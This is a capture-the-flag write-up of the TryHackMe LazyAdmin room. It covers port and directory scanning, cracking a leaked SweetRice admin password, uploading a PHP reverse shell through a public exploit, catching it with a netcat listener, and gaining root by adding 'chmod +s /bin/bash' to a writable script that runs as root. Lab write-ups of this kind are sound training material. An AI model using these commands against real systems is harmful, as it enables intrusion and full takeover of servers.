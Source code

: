 ```yaml
---
title: "TryHackMe - Lazy Admin"
author: Nasrallah
description: ""
date: 2022-04-07 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, crack, easy]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [LazyAdmin](https://tryhackme.com/room/lazyadmin) from [TryHackMe](https://tryhackme.com). We find a webserver running a vulnerable 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.151.18
Host is up (0.099s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got ssh on port 22 and a http webserver on port 80, let's check the webserver.


## Webserver

Let's navigate to the web page.

![](/assets/img/tryhackme/lazyadmin/l1.png)

It's the default page of Apache, nothing useful, let's run directory scan.

## Gobuster

```Terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.149.81/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/13 07:44:21 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.149.81/content/]
/index.html           (Status: 200) [Size: 11321]                                 
/server-status        (Status: 403) [Size: 277]                                   
===============================================================
```

We found a directory called **/content**, let's navigate to it.

![](/assets/img/tryhackme/lazyadmin/l2.png)

We found a welcome page of **SweetRice** website management system, I searched for SweetRice on [Exploitdb](https://www.exploit-db.com/) and found that it has a backup disclosure vulnerability, this [exploit](https://www.exploit-db.com/exploits/40718) explains how to get a mysql backup.

![](/assets/img/tryhackme/lazyadmin/l3.png)

We can navigate to `http://{target_IP}/inc/mysql_backup` and find a mysql backup file.

![](/assets/img/tryhackme/lazyadmin/l4.png)

Let's download the file to our machine and see what it has for us.

![](/assets/img/tryhackme/lazyadmin/l5.png)

The file has the username **manager** and a password hash that looks like an md5 hash, so we can use [crackstation](https://crackstation.net/) to crack the password.

![](/assets/img/tryhackme/lazyadmin/l6.png)

We managed to crack the password, but where to use it.

Let's run another directory scan but this time on **/content**.

```Terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.18/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/08 12:15:07 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.151.18/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.151.18/content/as/]     
/attachment           (Status: 301) [Size: 325] [--> http://10.10.151.18/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.151.18/content/images/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.151.18/content/inc/]       
/index.php            (Status: 200) [Size: 2198]                                             
/js                   (Status: 301) [Size: 317] [--> http://10.10.151.18/content/js/]        

===============================================================
```

Let's see what on **/as** directory, navigate to `http://{target_IP}/content/as`.

![](/assets/img/tryhackme/lazyadmin/l8.png)

Great! We found a login page, let's use the credentials we found to login.

![](/assets/img/tryhackme/lazyadmin/l9.png)


# **Foothold**

We have access, now what? Earlier when we searched for possible exploits, there was an *arbitrary file upload* exploit in [Exploitdb](https://www.exploit-db.com/).

![](/assets/img/tryhackme/lazyadmin/l10.png)

Download the exploit [here](https://www.exploit-db.com/exploits/40716) and run it with `sudo python3 {exploitfile}`.

![](/assets/img/tryhackme/lazyadmin/l11.png)

We need to provide the target url `{target_IP}/content`, the username `manager`, the password we managed to crack, and a php reverse shell, in my case i used this one from [pentestmonkeys](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), the extension of the file has to be `php5` for a successful upload.

Now let's set up a listener on our machine with `nc -lvnp {port_number}` and visit the link the exploit gave us `http://target_IP/content/attachment/reverse.php5`

![](/assets/img/tryhackme/lazyadmin/l12.png)

Great! We managed to get a shell, and i used the python3 pty trick to get a functional shell, now the privesc part.


# **Privilege Escalation**

Let's check our privileges by running `sudo -l`

![](/assets/img/tryhackme/lazyadmin/l13.png)

We can run a perl script as root. We don't have write permissions on the script so let's check script does.

![](/assets/img/tryhackme/lazyadmin/l14.png)

backup.pl just runs another script called copy.sh, and we have write permissions on that file.

I added the following command: `chmod +s /bin/bash`, this gives suid permission to /bin/bash so that i can run it as it's owner root, i run the perl script after that and we can see the suid bit got added to /bin/bash.

running `/bin/bash -p` will give us a root shell

![](/assets/img/tryhackme/lazyadmin/l15.png)

And just like that we have rooted **LazyAdmin**.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
